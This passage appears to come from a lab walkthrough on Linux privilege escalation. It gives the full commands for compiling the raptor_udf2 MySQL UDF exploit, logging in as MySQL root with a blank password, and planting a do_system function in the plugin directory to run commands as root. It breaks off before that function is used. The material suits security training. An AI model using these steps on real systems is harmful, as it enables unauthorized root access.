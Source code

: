 The answer is:
```
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```


<br />
<br />

## 2. Service Exploits

<br />

This section might be a little advanced for some - It involves compiling the [MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)](https://www.exploit-db.com/exploits/1518) exploit, which is already downloaded as `raptor_udf2.c` under the `/home/user/tools/mysql-udf` directory on the target machine. This exploit allows us to take advantage of User Defined Functions (UDFs) to run system commands with root privileges using the MySQL service.

<br />

We first need to navigate to the file location at `/home/user/tools/mysql-udf`.
```
cd /home/user/tools/mysql-udf
```

Following the instructions provided on the exploit [link](https://www.exploit-db.com/exploits/1518) provided above, we need to compile the file before use:

```
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Once compiled, we can proceed to run `mysql` as `root` using a blank password:

```
mysql -u root -p
```

![image](https://user-images.githubusercontent.com/14150485/172220178-7765795d-509d-4c8b-8780-1041318062a9.png)

We can now proceed with the following commands on the `mysql` shell to create a User Defined Function (UDF) `do_system` using the exploit we compiled:

```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

The table entries can be confirmed with the following command:

```
select * from mysql.func;
```
